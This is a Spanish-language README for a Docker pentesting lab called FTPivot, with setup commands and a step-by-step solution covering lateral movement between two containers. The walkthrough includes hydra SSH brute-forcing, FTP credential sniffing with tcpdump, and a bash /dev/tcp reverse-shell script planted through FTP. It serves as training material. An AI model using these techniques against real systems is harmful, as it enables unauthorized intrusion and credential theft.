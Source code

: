 # FTPivot

- [1. Descripción General](#1-descripción-general)
- [2. Instalación y Despliegue](#2-instalación-y-despliegue)
- [2.1. Despliegue automático](#21-despliegue-automático)
- [2.2. Despliegue manual](#22-despliegue-manual)
- [3. Descripción de laboratorio](#3-descripción-de-laboratorio)
- [4. Solución del Laboratorio](#4-solución-del-laboratorio)
- [4.1. Cracking de Credenciales](#41-cracking-de-credenciales)
- [4.2. Búsqueda de la flag](#42-búsqueda-de-la-flag)
- [4.3. Recolección de información](#43-recolección-de-información)
- [4.4. Monitoreo de Tráfico FTP](#44-monitoreo-de-tráfico-ftp)
- [4.5. Acceso FTP y Manipulación de Scripts](#45-acceso-ftp-y-manipulación-de-scripts)
- [4.6. SSH y Descubrimiento de PassPhrase](#46-ssh-y-descubrimiento-de-passphrase)
- [4.7. Conversión Hexadecimal y Descubrimiento de la Flag](#47-conversión-hexadecimal-y-descubrimiento-de-la-flag)

## 1. Descripción General

Este laboratorio es una simulación de un entorno de red diseñado para practicar técnicas de análisis y penetración de sistemas. Utiliza Docker para simular dos servidores diferentes, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de ciberseguridad.

## 2. Instalación y Despliegue

Antes del despliegue de nuestro laboratorio será necesario craer una red en Docker de tipo _bridge_:

```bash
docker network create ftpivot
```

### 2.1. Despliegue automático

Para desplegar el laboratorio bastará con ejecutar:

```bash
docker run -d --name ftpivot1 --network ftpivot -p [HostPort]:22 kradbyte/ftpivot:pivot1
docker run -d --name ftpivot2 --network ftpivot kradbyte/ftpivot:pivot2
```

No olvides reemplazar `HostPort` por el puerto de tu host por donde expondrás el servicio SSH.

### 2.2. Despliegue manual

Para construir tus propias imágenes deberás clonar el repositorio y construir las imágenes:

```bash
git clone https://github.com/oppaisdf/elemental-labs.git
docker build -t kradbyte/ftpivot:pivot1 -f elementals-labs/5-FTPivot/Dockerfile.a elementals-labs/5-FTPivot
docker build -t kradbyte/ftpivot:pivot2 -f elementals-labs/5-FTPivot/Dockerfile.b elementals-labs/5-FTPivot
```

Luego podremos desplegar los contenedores:

```bash
docker run -d --name ftpivot1 --network ftpivot -p [HostPort]:22 kradbyte/ftpivot:pivot1
docker run -d --name ftpivot2 --network ftpivot kradbyte/ftpivot:pivot2
```

No olvides reemplazar `HostPort` por el puerto de tu host por donde expondrás el servicio SSH.

> **Nota**: Se recomienda no cambiar el nombre de los contenedores, dado que para las conexiones internas se utilizan estos nombres para la resolución de DNS. En caso se quiera cambiar el nombre de los contenedores se tendrán que cambiar los nombres en los archivos de configuración de las máquinas.

## 3. Descripción de laboratorio

En este laboratorio, deberás infiltrarte en un servidor para capturar una flag. Utilizarás una combinación de habilidades adquiridas previamente, además de introducirte en el concepto de movimiento lateral.

**Concepts**
Pivoteo: Exploración de dispositivos, servicios o redes internas que no son accesibles directamente desde la red pública.
Movimiento Lateral: Una vez se tiene acceso a un dispositivo, consiste en utilizarlo para ganar acceso a otros dispositivos dentro de la misma red.

**Steps**
- Gana acceso al servidor con SSH.
- Busca información relevante sobre posibles conexiones a otros hosts dentro de la red interna.
- Monitorea el tráfico de red y gana acceso al nuevo host (reverse shell).
- Consigue la llave para la nueva conexión.
- Con el nuevo usuario compara las flags que encontraste dentro del host y descifra la flag del laboratorio.

**Tools**
Nmap, NetCat, scripting bash, tcpdump, WireShark, SSH, curl, FTP.

**Grants**
- Verificar logs de lo que se esté trabajando o cualquier carpeta/archivo que contenga lo que se esté trabajando (SSH, la flag, FTP, etc.).
- Verificar tareas programadas.
- Usuario para SSH “guest”.

**Resultado**
Al final de este laboratorio, deberás ser capaz de entender y ejecutar un ataque de movimiento lateral dentro de una red simulada, utilizando herramientas y técnicas comunes en la ciberseguridad. La flag capturada demostrará tu éxito en el uso combinado de estos métodos y herramientas.

## 4. Solución del Laboratorio

### 4.1. Cracking de Credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al primer host. La descripción nos proporciona el usuario "guest", por lo que deberemos descubrir la contraseña. Podremos utilizar alguna herramienta como _hydra_:

```bash
hydra -L guest -p /ruta/a/tu/diccionario ssh://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` por la IP del servidor donde está montado el servidor y el puerto por el que corre el servicio, en caso de haberse configurado para exponer SSH en otro puerto distinto al 22.

### 4.2. Búsqueda de la flag

Una vez dentro del servidor podremos buscar la flag con algún comando como los siguientes:

```bash
find / -name \*flag\* -type d 2>/dev/null
find / -name \*flag\* -type f 2>/dev/null
```

Al encontrar la flag nos daremos cuenta que hay dos flag, uno "old" y un "new", por lo que deberemos comparar las flag, pero una flag solo se pude leer por otro usuario, por lo que deberemos buscar alguna forma de conseguir el acceso al otro usuario.

### 4.3. Recolección de información

Al buscar dentro del servidor y llegar a las tareas cron, observaremos un par de tareas que se ejecutan por el usuario que necesitamos, así que podremos intentar capturar las peticiones para ver si podemos encontrar algo en el tráfico de red.

### 4.4. Monitoreo de Tráfico FTP

Para monitorear el tráfico utilizaremos tcpdump:

```bash
tcpdump -i eth0 -w trafic.pcap
```

Una vez tengamos capturado el tráfico podremos compartirlo con nuestro host principal para analizarlo con WireShark. Se recomienda montar un servidor http simple con capacidad PUT/POST.
Una vez analizado el tráfico y filtramos por FTP encontraremos las credenciales y la IP de la otra máquina, por lo que podríamos conectarnos por FTP y ver qué podemos encontrar en la otra máquina.

### 4.5. Acceso FTP y Manipulación de Scripts

Cuando hayamos obtenido las credenciales del FTP en el paso anterior podremos conectarnos al servicio. Recuerda conectarte por FTP desde el servidor, dado que este servicio corre en la red interna del servidor y no estará accesible desde host principal.
Al ingresar y listar lo que hay en el directario donde estamos notaremos que hay un script que ejecuta scripts en una carpeta, por lo que podremos crear nuestro propio script y ganar acceso a la máquina. Se recomienda hacer un script para una reverse shell, pero se es libre de optar por el camino que se gusta, como trabajar con la forward shell, ejecución de binarios externos trasferidos por FTP, etc.

```bash
#!/bin/bash
bash >& /dev/tcp/ClientIP/ListenPort 0>&1
```

### 4.6. SSH y Descubrimiento de PassPhrase

Al buscar dentro de la máquina en el historial de comandos en el archivo `.bash_history`, encontraremos un comando para conexión por SSH al usuario que necesitamos para leer la otra flag y al buscar la ruta de la llave, podremos conectarnos también al nuevo usuario encontrado. El problema es que si intentamos conectarnos nos pedirá una PasPhrase que no tenemos y deberemos buscar.
Si buscamos en las tareas programadas del usuario encontraremos la PassPhrase que buscamos:

```bash
cat /home/user/.bash_history
crontab -l
```

### 4.7. Conversión Hexadecimal y Descubrimiento de la Flag

Cuando nos hayamos conectado por SSH al usuario que necesitábamos podremos leer la otra flag, ahora bastará con darle permisos de lectura a todos los usuarios para que podamos comparar las dos flag. La diferencia resultante será un archivo ".txt" en hexadecimal, por lo que bastará con convertir el texto hexadecimal a un archivo legible y habremos resuelto el laboratorio.
